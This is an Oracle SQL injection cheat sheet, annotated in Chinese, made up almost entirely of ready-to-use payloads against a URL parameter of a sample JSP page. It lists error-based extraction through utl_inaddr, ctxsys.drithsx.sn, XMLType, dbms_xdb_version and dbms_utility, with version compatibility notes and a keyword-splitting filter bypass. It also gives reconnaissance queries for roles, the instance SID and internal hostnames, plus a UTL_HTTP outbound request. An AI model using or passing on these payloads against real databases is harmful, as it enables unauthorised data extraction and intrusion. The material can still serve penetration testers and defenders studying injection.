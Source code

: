 `1.信息获取`
    
    utl_inaddr.get_host_name	
    http://www.iswin.org/oracle.jsp?name=' and 1=utl_inaddr.get_host_name((select user from dual))--
    ctxsys.drithsx.sn	
    http://www.iswin.org/oracle.jsp?name=' and 1=ctxsys.drithsx.sn(1,(select user from dual))--

    这种方法在Oracle 8g，9g，10g中不需要任何权限
    XMLType  XML报错
    在使用这个XMLType进行报错时，很多人不知道为什么要用chr(60)，通过ascii查询可以看到，60:<,58:’:’,62:’>’,查了下相关的api，发现xmltype在进行解析 的时候必须以<开头>结尾，这里:冒号在这是必不可少的，至于为什么是冒号这个我也没查到，另外需要注意的是如果返回的数据种有空格的话，它会自动截断，导致数据不完整，有replace函数替换成其他非空字符就可以。
    	
    http://www.iswin.org/oracle.jsp?name=' and (select upper(XMLType(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual) is     not null--
    dbms_xdb_version.checkin
    http://www.iswin.org/oracle.jsp?name=' and (select dbms_xdb_version.checkin((select user from dual)) from dual) is not null--
    dbms_xdb_version.makeversioned
    http://www.iswin.org/oracle.jsp?name=' and (select dbms_xdb_version.makeversioned((select user from dual)) from dual) is not null--
    dbms_xdb_version.uncheckout
    http://www.iswin.org/oracle.jsp?name=' and (select dbms_xdb_version.uncheckout((select user from dual)) from dual) is not null--
    dbms_utility.sqlid_to_sqlhash
    http://www.iswin.org/oracle.jsp?name=' and (SELECT dbms_utility.sqlid_to_sqlhash((select user from dual)) from dual) is not null--
    select user from dual #当前用户
    SELECT banner FROM v$version WHERE banner LIKE 'Oracle%';   #oracle版本
    select wmsys.wm_concat(granted_role) from user_role_privs-- 看赋予角色权限
    select instance_name from v$instance#服务器sid 远程链接需要
    select utl_inaddr.get_host_name('127.0.0.1') from dual; #查询内网hostname win08dc.contoso.com
    SELECT UTL_HTTP.REQUEST('http://localhost') FROM dual;  #对外通信
    SELECT UTL_INADDR.get_host_address('localhost.com') FROM dual;
    select table_name from user_tables where lower(table_name)='books'   #查看books表书否存在
    
`2.Error Based(报错注入)`

    (10g or 11g)
    ' and 1 = ctxsys.drithsx.sn(1,(select user from dual))--  
    and 1=(dbms_utility.sqlid_to_sqlhash((select banner from sys.v_$version where rownum=1))) and 1=1. 
    ' and 1=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(113)||CHR(122)||CHR(120)||CHR(98)||CHR(113)||(SELECT (CASE WHEN (4113=4113) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(118)||CHR(107)||CHR(107)||CHR(113)||CHR(62))) FROM DUAL)--  
    ' and dbms_xdb_version.checkin((select user from dual))='1'--  
    ' and dbms_xdb_version.makeversioned((select user from dual))='1'--  
    ' and dbms_utility.sqlid_to_sqlhash((select user from dual))='1'--  
    ' and dbms_utility.sqlid_to_sqlhash((select user from dual))='1'--  
    ' and 1=(select decode(substr(user,1,1),'S',(1/0),0) from dual)--     #user第一位是S ORA-01476: divisor is equal to zero 
    ' order by (SELECT (CASE WHEN (2434=2434||utl_inaddr.get_host_name((select banner from v$version where rownum=1))) THEN 2434 ELSE CAST(1 AS INT)/0 END) FROM DUAL)--%'  

    11g普通用户不能用的#utl_inaddr not work maybe acl(11g normal user) or java not installed etc
    '||utl_inaddr.get_host_address((select banner from v$version where rownum=1))||'    
    '||utl_inaddr.get_host_name((select banner from v$version where rownum=1))||'

    10g不能用的
    ' and dbms_aw_xml.readawmetadata((select sys_context('USERENV', 'SESSION_USER') from dual), null) is null --    #(11g 10g报错ORA-29532: Java call terminated by uncaught Java exception: java.lang.OutOfMemoryError)
    ' or dbMS_aW_xMl.reAdaWmetaData((select sYS_cONtExt('US' || 'ERENV', 'SESS' || 'ION_US' || 'ER') from dUAl), null) is null --# bypass 1
    ' and 1=(ordsys.ord_dicom.getmappingxpath((select user from dual),user,user))-- 
    
    
